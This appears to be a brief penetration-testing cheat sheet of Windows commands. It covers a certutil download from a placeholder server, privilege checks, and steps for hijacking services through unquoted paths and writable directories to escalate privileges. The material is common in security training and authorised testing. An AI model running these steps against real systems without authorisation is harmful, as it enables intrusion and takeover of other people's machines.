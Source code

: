 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```
# Exploiting Windows Services
Listing services for weak perms and unquoted service paths
```
wmic service get name,startname,pathname
#
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
#
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
#
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest
